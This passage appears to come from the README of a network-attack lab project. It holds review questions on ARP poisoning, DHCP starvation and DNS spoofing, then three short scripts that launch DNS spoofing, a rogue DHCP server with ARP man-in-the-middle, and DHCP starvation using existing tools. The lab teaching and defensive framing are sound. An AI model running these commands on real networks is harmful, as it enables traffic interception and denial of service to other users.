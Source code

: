 7. **What is ARP poisoning? How does it relate to DHCP attacks?**
   > Sends fake ARP messages; can be used post-DHCP attack to redirect traffic

8. **How to mitigate DHCP starvation?**
   > Use port security, DHCP snooping, MAC filtering

9. **Can DNS spoofing work over HTTPS?**
   > Only partially; users will get cert errors

10. **Why use Host-only adapter in labs?**
    > Prevents interaction with external networks for safety

---

## ✅ Final Notes
This project was created to provide real-world exposure to core network attack techniques and foster defensive thinking. Fork it, contribute, or use it in your next pentest lab.

---

> Maintained by: [Your GitHub Handle Here]  
> License: MIT  
> Pull Requests Welcome!

---

## 📜 Scripts

### `scripts/dns_spoof.py`
```python
#!/usr/bin/env python3
import subprocess
print("[+] Starting DNS Spoofing with DnsChef...")
subprocess.run(["sudo", "dnschef", "--fakeip", "192.168.56.105", "--interface", "eth0"])
```

### `scripts/rogue_dhcp.sh`
```bash
#!/bin/bash
# Rogue DHCP with Ettercap

echo "[+] Launching Rogue DHCP Server via Ettercap..."
sudo ettercap -T -q -i eth0 -P dhcp -M arp:remote
```

### `scripts/dhcp_starvation.py`
```python
#!/usr/bin/env python3
import subprocess
print("[+] Launching DHCP Starvation using DHCPig...")
subprocess.run(["sudo", "python3", "$(which dhcpig)", "-i", "eth0"], shell=True)
```

---